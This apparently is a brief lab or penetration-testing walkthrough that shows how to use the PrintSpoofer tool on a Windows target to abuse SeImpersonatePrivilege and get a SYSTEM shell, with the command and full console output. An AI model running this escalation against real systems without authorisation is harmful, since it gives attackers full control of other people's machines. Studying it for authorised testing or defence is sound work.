 ## Impersonating the Local SYSTEM Account with PrintSpoofer

after we have download the binary we just need to transfer it to our target and run the following command
```
command: .\spoofer64.exe -i -c cmd
```

# OUTPUT
```
C:\Users\Public\Desktop>spoofer.exe -i -c cmd
spoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                                                                                          

C:\Windows\system32>whoami
whoami
nt authority\system 
```
